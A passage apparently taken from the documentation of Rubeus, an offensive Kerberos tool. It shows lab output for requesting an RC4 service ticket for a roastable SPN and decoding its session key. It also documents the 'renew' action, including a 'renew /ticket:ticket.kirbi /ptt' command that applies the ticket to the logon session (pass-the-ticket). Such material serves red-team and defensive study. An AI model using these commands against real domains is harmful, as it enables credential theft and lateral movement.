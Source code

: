     v1.4.1

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Requesting 'rc4_hmac' etype for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFrjCCBaqgAwIBBaEDA...(snip)...

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  roast/me
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:10:59 PM
    EndTime               :  2/25/2019 8:09:54 PM
    RenewTill             :  3/4/2019 3:09:54 PM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  Gg3zZicIl5c50KGecCf8XA==


### renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1506 bytes
    [*] Received 1510 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):
